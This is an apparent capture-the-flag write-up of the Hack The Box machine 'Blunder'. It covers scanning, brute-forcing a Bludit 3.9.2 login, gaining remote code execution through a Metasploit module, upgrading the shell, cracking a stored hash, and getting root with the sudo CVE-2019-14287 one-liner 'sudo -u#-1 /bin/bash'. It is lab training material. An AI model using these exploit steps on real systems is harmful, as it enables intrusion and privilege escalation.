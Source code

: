 ![](blunder-banner.png)

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Scanning

## Nmap

`ports=$(nmap -Pn -p- --min-rate=1000 -T4 10.10.10.191 | grep open | awk -F / '{print $1}' ORS=',') echo $ports && nmap -p$ports -sV -sC -v -T4 -oA scans/nmap.full 10.10.10.191`
```bash
PORT   STATE  SERVICE VERSION
21/tcp closed ftp
80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: Blunder
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Blunder | A blunder of interesting facts
```

## Gobuster

`gobuster dir -u http://10.10.10.191 -w /usr/share/seclists/Discovery/Web-Content/common.txt -x txt,php -t 50`
```
/admin (Status: 301)
/todo.txt (Status: 200)
```

### /admin

- in the admin page I found [bludit CMS](https://github.com/bludit/bludit) admin login panel, 
- Looking at the source code, the CMS version is identified as `3.9.2`

### /todo.txt

`-Inform fergus that the new blog needs images - PENDING`

potential username **fergus**

## Google

**search :** `bludit 3.9.2 vulnerability`

**2 CVEs Found**

**CVE-2019-17240**:*bl-kernel/security.class.php in Bludit 3.9.2 allows attackers to bypass a brute-force protection mechanism by using many different forged X-Forwarded-For or Client-IP HTTP headers.* 

**CVE-2019-16113 (1 Metasploit modules)**:*Bludit 3.9.2 allows remote code execution via bl-kernel/ajax/upload-images.php because PHP code can be entered with a .jpg file name, and then this PHP code can write other PHP code to a ../ pathname.* 

# User Exploiting

## CVE-2019-17240

**Discovered By**: Rastating
**References**: [rastating.github.io](https://rastating.github.io/bludit-brute-force-mitigation-bypass/) Blog post.

- requirements

  - **username:** fergus
  - **wordlist:** *create a wordlist from the website text*
  
        cewl http://10.10.10.191 -w wordlist


### POC Script

[bludit_3.9.2-Bruteforce.py](exploit/bludit_3.9.2-Bruteforce.py)
* [Wordlist](exploit/wordlist.txt) generated from webpage usubg cewl tool

*ippsec [video](https://www.youtube.com/watch?v=G5iw8c2vXuk&t=940s)*

#### creds

      fergus:RolandDeschain

## CVE-2019-16113

**Discoverer**: Christasa
**References**: [issue 1081](https://github.com/bludit/bludit/issues/1081)

- requirements

  - **username:** fergus
  - **password:** RolandDeschain


### Exploiting

#### using ExploitDB Script

  - Title: Bludit 3.9.2 - Directory Traversal
  - Author: James Green
  - EDB-ID: [48701](https://www.exploit-db.com/exploits/48701)

[Bludit_3.9.2-DirectoryTraversal.py](exploit/Bludit_3.9.2-DirectoryTraversal.py)

*ippsec [video](https://www.youtube.com/watch?v=G5iw8c2vXuk&t=2460s)*

#### MSF Module [Rapid7](https://www.rapid7.com/db/modules/exploit/linux/http/bludit_upload_images_exec)

> exploit/linux/http/bludit_upload_images_exec

	BLUDITPASS => RolandDeschain
	BLUDITUSER => fergus
	RHOSTS => 10.10.10.191
	LHOST => tun0

### low lavel user shell or meterpreter shell
	$ whoami;id
	www-data
	uid=33(www-data) gid=33(www-data) groups=33(www-data)

### spawn dumb shell, [ropnop.com blog](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys)

	$ which python
		/usr/bin/python
	# In reverse shell
	$ python -c 'import pty; pty.spawn("/bin/bash")'
	Ctrl-Z

	# In Kali
	$ stty raw -echo
	$ fg 	//Enter twice

	# In reverse shell
	$ reset
	$ export SHELL=bash
	$ export TERM=xterm-256color
	$ stty rows <num> columns <cols>

**for meterpreter shell upgrade :** [hackingarticles.in blog](https://www.hackingarticles.in/command-shell-to-meterpreter/)

### Local Enumeration

- Home directory has 2 users

	  hugo	//has user flag
	  shaun

- in `/var/www/bludit-3.10.0a/bl-content/databases` directory

	  user.php	//contains Hugo's password hash

		"nickname": "Hugo",
		"password": "faca404fd5c0a31cf1897b823c695c85cffeb98d"
		//hash type SHA1
		
- creds

	  hugo:Password120

# Root Prevesc

- **Enumeration**

	  $ su - hugo
	  su - hugo
	  Password: Password120

	  hugo@blunder:~$ sudo -l
	  sudo -l
	  Password: Password120

	  Matching Defaults entries for hugo on blunder:
	      env_reset, mail_badpass,
	      secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

	  User hugo may run the following commands on blunder:
	      (ALL, !root) /bin/bash
	  hugo@blunder:~$ sudo -V
	  sudo -V
	  Sudo version 1.8.25p1


### Google

**search :** `sudo ALL, !root privesc`

**1 CVE Found**

#### CVE-2019-14287

	# Exploit Title : sudo 1.8.27 - Security Bypass
	# Original Author: Joe Vennix
	# Exploit Author : Mohin Paramasivam (Shad0wQu35t)
	# Version : Sudo <1.2.28
	# Credit : Joe Vennix from Apple Information Security found and analyzed the bug

EDB-ID: [47502](https://www.exploit-db.com/exploits/47502)

- misconfigured sudo

	  $ sudo -l 
	  User hugo may run the following commands on blunder:
	      (ALL, !root) /bin/bash
    
**EXPLOIT :** 

	$ sudo -u#-1 /bin/bash